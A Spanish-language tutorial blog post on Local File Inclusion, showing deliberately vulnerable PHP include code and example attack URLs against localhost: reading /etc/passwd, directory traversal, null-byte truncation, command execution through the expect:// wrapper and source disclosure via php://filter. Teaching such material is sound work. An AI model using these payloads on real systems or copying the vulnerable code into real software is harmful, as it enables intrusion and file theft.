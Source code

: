 ```yaml
---
title: Local File Inclusion (LFI)
published: true
---
```


La vulnerabilidad _Local File Inclusion_, _LFI_ por sus siglas en inglés, permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la gravedad, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* XSS (Cross-Site Scripting)
* DoS (Denial Of Service)

Un ejemplo muy básico sería el siguiente script en _PHP_.

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Script, del que podemos abusar para leer cualquier archivo del sistema, en este caso el `/etc/passwd`.

```
localhost/lfi.php?filename=/etc/passwd
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/1.png)

Es importante aclarar que esta no es solo una vulnerabilidad de _PHP_, también está presente en otros lenguajes como lo es _JSP_ o _ASP_.

### [](#header-3)Directory Path Traversal

Es posible que en el código, se nos limite a acceder a archivos que se ubican únicamente en una ruta preestablecida en el script, en este caso `/var/www/html/`.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta preestablecida si añadimos `../` en nuestra cadena de ataque, pudiendo así listar contenido más allá de `/var/www/html/`.

```
localhost/lfi.php?filename=../../../etc/passwd
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/2.png)

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a acceder a archivos de determinada extensión, en este caso archivos de extensión `.php`.

```php
<?php
	$file = $_GET['filename'];
        include($file . ".php");
?>
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/3.png)

De modo que cuando intentemos leer el archivo `/etc/passwd`, o cualquier otro archivo del sistema, lo que estariamos leyendo en realidad sería el archivo `/etc/passwd.php`, el cual no existe. 

Sin embargo, si añadimos el nullbyte `%00` al final de nuestra cadena de ataque, el `.php` no será tenido en cuenta, pudiendo así leer con normalidad el `/etc/passwd`, o cualquier otro archivo del sistema.

```
localhost/lfi.php?filename=/etc/passwd%00
```

### [](#header-3)Wrappers

_PHP_ cuenta con una serie de _wrappers_, los cuales a menudo pueden ser abusados, por mencionar algunos tenemos:

#### [](#header-4)expect://

Nos permite una ejecución remota de comandos (RCE); cabe aclarar que para poder utilizar este _wrapper_ no está activado por defecto, por lo que no siempre será posible utilizarlo

```
localhost/lfi.php?filename=expect://whoami
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/4.png)

#### [](#header-4)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser _Base64_ o _ROT13_. 

Este _wrapper_ resulta bastante útil si necesitamos leer un archivo en _PHP_, ya que recordemos, este es un lenguaje interpretado, por lo que si intentáramos leer un archivo _PHP_ del servidor vulnerable, lo que veríamos sería simplemente el output del script.

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/5.png)

```
localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=test.php
```

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/6.png)

![](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/master/assets/2021-09-13-Local-File-Inclusion-(LFI)/7.png)
